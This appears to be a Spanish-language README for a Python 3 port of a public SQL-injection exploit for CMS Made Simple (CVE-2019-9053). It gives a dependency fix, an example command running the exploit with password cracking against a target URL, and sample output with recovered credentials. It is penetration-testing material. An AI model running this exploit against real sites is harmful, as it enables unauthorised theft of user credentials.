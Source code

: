 # CMS Made Simple < 2.2.10 - SQL Injection (el exploit ha sido parcheado para ser compatible con Python 3.)

<h1> CVE-2019-9053
  <h2>Fuente de exploración original: https://www.exploit-db.com/exploits/46635
<h1> Posible error y su corrección. </h1>

<bash>Traceback (most recent call last):
  File "46635.py", line 12, in <module>
    from termcolor import colored
ImportError: No module named termcolor
  
<h2> Corrección
  
  <code> pip install termcolor
  </code>

  <h2> Ejemplo de comando </h2>
  
  <code> python cve.py -u http://target --crack -w /usr/share/wordlists/best110.txt   
 </code>
  
  <h1> Ejemplo del Resultado:
	  
```
  [+] Salt for password found: 18
  [+] Username found: mitw
  [+] Email found: adk
  [+] Password found: 0c01f4468d
```                                 

# Los usuarios asumen toda la responsabilidad por cualquier acción realizada con esta herramienta..</p>
# Si estos términos no son aceptables para usted, no utilice esta herramienta.
# Utilice esta herramienta solo en entornos donde se le permita realizar actividades de pruebas de penetración..
# No utilice esta herramienta con fines maliciosos.


